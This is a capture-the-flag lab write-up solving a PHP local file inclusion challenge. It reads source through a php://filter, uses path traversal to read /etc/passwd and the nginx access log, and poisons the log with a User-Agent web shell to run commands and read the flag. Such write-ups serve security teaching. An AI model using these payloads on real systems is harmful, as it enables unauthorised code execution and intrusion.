## Challenge

Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer. 

## Solution

From what can be see in the page, and after Fuzzing, I didn't find any parameters that can be used.

But, as usual there is an `index` file which is a `php`.

Now, I try to read the source code by encoding it to base64:

```sh
curl -s "http://94.237.54.208:38512/index.php?page=php://filter/read=convert.base64-encode/resource=index"
```

And I got a base64 string, which i decode it via: 

```sh
echo "base64 encoded string" | base64 -d
```

And this provided me with the source code, in which I find a potentially interesting directory:

```html

<ul class="site-menu js-clone-nav mx-auto d-none d-lg-block">
<li class="active"><a href="index.php">Home</a></li>
<li><a href="index.php?page=about">About Us</a></li>
<li><a href="index.php?page=industries">Industries</a></li>
<li><a href="index.php?page=contact">Contact</a></li>
<?php
// echo '<li><a href="ilf_admin/index.php">Admin</a></li>';
?>
</ul>
```

There, its an Admin panel, where I can view some logs, and it accepts a parameter called `log=`, in which I check for the path traversal:

`http://94.237.54.208:38512/ilf_admin/index.php?log=../../../../../../etc/passwd`

And the vulnerability exists! In the users list in `/etc/passwd` I see a user `nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin` which tells me that it is an nginx server.

Now, I will try to see if I have access to the access logs of the nginx:

`http://94.237.54.208:38512/ilf_admin/index.php?log=../../../../../..//var/log/nginx/access.log`

And that's the case, so I have access there, and I will use now `Burp` to send a malicious `User-Agent` and to perform the `log poisoning attack`.

I send the following payload as User-Agent:

```php
<?php system($_GET['cmd']); ?>
```
and I send the request to:

```http

GET /ilf_admin/index.php?log=../../../../../..//var/log/nginx/access.log&cmd=whoami 
```

I see in the access logs that the user is `nobody`, and this confirms that I gained RCE.

Now let's list the files on the root directory by sending the following request:

```http
GET /ilf_admin/index.php?log=../../../../../..//var/log/nginx/access.log&cmd=ls%20/ 
```

The result is:

```sh
bin
dev
etc
flag_dacc60f2348d.txt
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

So now I got the name of the flag, and I read it by sending the request to: 

```http
GET /ilf_admin/index.php?log=../../../../../..//var/log/nginx/access.log&cmd=cat%20/flag_dacc60f2348d.txt
```

and the result is: `a9a892dbc9faf9a014f58e007721835e`, so the lab is solved.









